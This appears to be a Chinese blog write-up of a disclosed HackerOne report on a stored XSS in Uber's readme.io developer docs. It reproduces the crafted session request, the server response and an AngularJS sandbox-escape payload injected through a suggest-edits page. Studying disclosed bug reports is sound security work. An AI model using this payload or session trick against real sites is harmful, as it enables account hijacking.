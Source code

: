 # 漏洞散记
##  Uber的Xss第二弹
> 很有趣的XSS三连弹，作者分别在April，June,August提交了三次XSS，且完全利用在同一个地方，然而
就是通过了审查，并分别赚取了$3,000，$7,500，$5,000，简直无情，而且漏洞提交厂商是Uber，但实际影响最大
的却是另一个厂家:**readme.io**


> 漏洞价值:7500$

>源地址:[#131450](https://hackerone.com/reports/131450)

## 漏洞过程

作者没有在**https://developer.uber.com/**过多的执着，也可能是并没有发现新的漏洞，转而去测试了**https://uber.readme.io/**

也就是Uber的开发项目，简单点说就是**developer**页面的管理，并且成功挖掘到漏洞，所以作者本身也不能确定挖掘的漏洞是否
在项目范围之内
```
I'm not entirely sure if this is in scope, but it could definitely have a major impact on developer.uber.com so I figure you'd like to know either way.
```
作者展示了测试流程:
> 这儿猜测，作者本身肯定是对readme.io这个网站的运行流程十分熟悉 ，否则我个人觉得很难会想到这些操作，所以我尝试使用了readme.io,但是发现改了不少

作者访问了**https://uber.readme.io/**，获取到了**connect.sid cookie**

接着构造了一个POST请求
```
POST /users/session HTTP/1.1
Host: uber.readme.io
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 84
Cookie: YOUR CONNECT.SID COOKIE HERE
Connection: close
Pragma: no-cache
Cache-Control: no-cache

{"email":"readme2@thursday.eml.cc","password":"pjJnBODjkLFv!!11","action":"session"}
```
这儿我就很想问的是，作者为什么能构造得了这个请求？是**readme.io**本身之前就存在一个请求，还是作者完全自己构造出来的？

个人看法:之前**readme**存在这一个提交方式，并且存在一个设计上的权限漏洞,也可能是readme本身提供了API的参照，但是我并没有去找

作者提交了请求后，获得了一个**response**
```
{"id":"57129b7365324b0e002ad83b","name":"James Kettle","email":"readme2@thursday.eml.cc","username":"","provider":"local","createdAt":"2016-04-16T20:07:15.871Z","accessToken":"","stripeId":"","hasStripe":false,"email_verified":false,"hasGithub":false,"github":{},"is_admin":false,"is_god":false}
```
作者从**response**获取到了新的**connect.sid**,将新的cookie填入浏览器，并访问**https://uber.readme.io/docs/deep-linking/edit**，便
以非管理员权限进入到了一个**'Suggest edits' page**，接着根据上一次挖掘到的XSS，在页面中添加如下代码:

```
{{(_="".sub).call.call({}[$="constructor"].getOwnPropertyDescriptor(_.__proto__,$).value,0,"alert(1)")()}}
```
而造成的结果:

#### When an administrator next views the readme dashboard and clicks on the suggested edit, the injected JavaScript will execute (see screenshot). This JavaScript could automatically approve the suggestion.

#### Congrats, you've now got your own JavaScript executing on https://uber.readme.io/docs/deep-linking - potentially hijacking the account of every developer who views it.

### 结语
对于这一个XSS，我实际更倾向于他是**readme**网站设计上的越权，但是由于能够更改整个网站的JS了，所以才导致的XSS
而在整个漏洞过程中，最最关键的部分，却是在于，那个获取**connect.sid**的操作。大胆的猜测下，作者可能是用了一个没用的**connect.sid**,
提交了在**readme.io**中确实存在却并非Uber的一个用户，获取到了一个低权限只是用来证明用户的**connect.sid**，然后利用这个cookie直接
访问edit，成功到达**'Suggest edits' page**

但是总觉的有所矛盾，如果存在越权的话，那能否直接先登录一个用户，然后尝试访问别人的edit页面呢？这样的水平越权是否能成功呢？

这儿我一直想不通，如果以后遇到类似的场景，一定回来补这个坑

但是由于漏洞已经关闭了，所以并不能验证正确与否，所以只能有机会直接联系作者问一下了
